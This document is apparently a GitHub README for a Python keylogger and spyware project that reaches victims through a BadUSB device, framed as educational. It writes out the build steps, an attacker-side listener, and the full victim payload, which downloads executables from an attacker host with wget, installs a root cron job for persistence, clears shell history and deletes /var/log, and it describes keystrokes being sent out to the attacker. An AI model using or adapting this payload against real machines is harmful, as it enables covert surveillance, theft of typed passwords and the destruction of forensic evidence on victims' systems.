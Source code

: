 # HID Spyware - Keylogger with Persistence & Remote Control

A Python-based spyware and keylogger project designed for educational and cybersecurity research purposes.  
This project demonstrates how a malicious actor could deploy a spyware payload using a BadUSB (Teensy/Arduino), maintain persistence on the victim's machine, and exfiltrate keystrokes remotely.

---

## 🚨 Disclaimer

**This project is strictly for educational and ethical hacking purposes.**  
Do not use it on machines or networks you do not own or have explicit permission to test.  
The author is not responsible for any misuse or illegal activities.

---

## 🖥️ Features

- **Persistence:** Uses a cron job to execute the spyware every 2 minutes.
- **Fast Deployment:** Payload automatically downloads malicious scripts and executable.
- **Cross-Platform:** Compatible with Linux & Windows (Limited efficiency on Windows).
- **Evasion:** Bypasses default Linux security, limited effectiveness on MacOS & Windows.
- **Trace Cleaning:** Deletes shell history and log files after execution.
- **Original Build:** Developed in Python with Shell scripting and BadUSB payload.

---

## 📂 Project Structure

```
Spyware/
├── spyware-server.py          # Server listening for incoming victim connections
├── keylogger.py               # Keylogger script
├── system_kernel.py           # Main spyware client
├── dist/                      # Folder containing the built executable (after PyInstaller)
├── files/                     # Directory where captured keystrokes are stored
├── payload/
│   └── payload.ino            # Arduino/Teensy payload script
├── system-edit.sh             # Shell script executed by cron to ensure persistence
├── cron-system.sh             # Cron job definition
└── README.md
```

---

## ⚙️ Prerequisites

- Python 3.x
- `pyinstaller` (For building the executable)
- A Teensy/Arduino BadUSB device
- Linux target machine (recommended)
- Basic networking knowledge

---

## 🚀 Installation & Setup

### 1. Clone the Repository

```bash
git clone https://github.com/Enstso/Spyware.git
cd Spyware
```
The 'Spyware' folder in the project contains a version with limited functionalities.

### 2. Generate the Executable

```bash
pyinstaller -F system_kernel.py --add-data "./keylogger.py:."
```

The executable will be generated in the `dist/` folder.

### 3. Run the web server the malicious executable and scripts are hosted :

```bash
python3 -m http.server 8000
```

---

## 🧩 How it works

### **Victim Side (Payload Execution)**

Once the Teensy/Arduino BadUSB is plugged into the victim machine, it executes the following:

```bash
cd /root/Downloads
wget http://ip_server:8000/system_kernel
chmod +x system_kernel
wget http://ip_server:8000/system-edit.sh
chmod +x system-edit.sh
cd /etc/cron.d/
wget http://ip_server:8000/cron-system.sh
chmod +x cron-system.sh
cd /root/Downloads
./system_kernel
history -c
exit
```

The payload will:

1. Download the malicious executable and scripts.
2. Add a cron job to ensure persistence (`system-edit.sh` executed every 2 minutes).
3. Clean command history to hide traces.

**Persistence Logic (`system-edit.sh`):**
- Checks if `.document1.txt` exists.
- If not, relaunches `system_kernel` and deletes `/var/log/` content.

**Cron Job (`cron-system.sh`):**
```
2 * * * * root /root/Downloads/system-edit.sh
```

---

### **Attacker Side (Server Listening)**

1. Start the spyware server:

```bash
python3 spyware-server.py -l 12345
```

**Optional:** To see all available options:

```bash
python3 spyware-server.py --help
```

2. Make sure the `files/` directory exists:

```bash
mkdir files
```

All captured keystrokes from victims will be stored here.

---

## 📜 Scenario Overview

1. **Attacker:** Starts the spyware server on port `12345`.
2. **Attacker:** Serves the spyware executable and scripts on port `8000`.
3. **Victim:** BadUSB is plugged in → payload is executed → spyware & scripts downloaded.
4. **Spyware:** 
   - Connects to attacker's server.
   - Starts keylogging and sends captured keystrokes.
   - Runs persistently via cron job every 2 minutes.
   - Deletes system logs and history to erase evidence.
5. **Attacker:** Receives and stores keystrokes in `files/` folder.

---

## ⚠️ Important Notes

- The spyware is more effective on **Linux** systems.  
- It bypasses default Linux protections but has limited effectiveness on **Windows** and **MacOS**.
- This project is intended for controlled environments and cybersecurity demonstrations only.

---

## 🧩 Future Improvements

- Implement stealthier persistence techniques.
- Add encryption for communication and stored data.
- Improve Windows and MacOS compatibility.
- Add automatic detection of victim IP and OS.
